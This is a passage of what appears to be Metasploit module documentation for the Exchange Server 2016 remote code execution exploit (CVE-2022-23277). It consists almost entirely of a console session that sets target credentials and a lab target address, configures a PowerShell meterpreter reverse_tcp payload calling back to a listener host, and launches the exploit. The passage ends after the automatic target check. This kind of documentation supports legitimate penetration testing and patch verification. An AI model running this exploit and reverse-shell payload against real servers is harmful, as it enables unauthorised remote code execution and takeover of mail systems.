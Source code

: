 ```
meterpreter >
```

### Exchange Server 2016 CU22 Jan22SU (Build 15.1.2375.18) on Windows Server 2016 x64 (CVE-2022-23277)

```
msf6 > use exploit/windows/http/exchange_chainedserializationbinder_rce 
[*] No payload configured, defaulting to cmd/windows/powershell/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set HttpUsername aliddle
HttpUsername => aliddle
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set HttpPassword Password1
HttpPassword => Password1
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set DOMAIN EXCHG
DOMAIN => EXCHG
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > set RHOSTS 192.168.159.42
RHOSTS => 192.168.159.42
msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > show options 

Module options (exploit/windows/http/exchange_chainedserializationbinder_rce):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   HttpPassword  Password1        yes       The password to use to authenticate to the Exchange server
   HttpUsername  aliddle          yes       The username to log into the Exchange server as
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS        192.168.159.42   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT         443              yes       The target port (TCP)
   SRVHOST       0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT       8080             yes       The local port to listen on.
   SSL           true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                        no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI     /                yes       Base path
   URIPATH                        no        The URI to use for this exploit (default is random)
   VHOST                          no        HTTP server virtual host


Payload options (cmd/windows/powershell/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.250.134  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf6 exploit(windows/http/exchange_chainedserializationbinder_rce) > exploit

[*] Started reverse TCP handler on 192.168.250.134:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Target is an Exchange Server!
```

[KB5008631]: https://support.microsoft.com/en-gb/topic/description-of-the-security-update-for-microsoft-exchange-server-2019-2016-and-2013-january-11-2022-kb5008631-2ee4d1f3-8341-4a4d-86be-4b73bc944f1b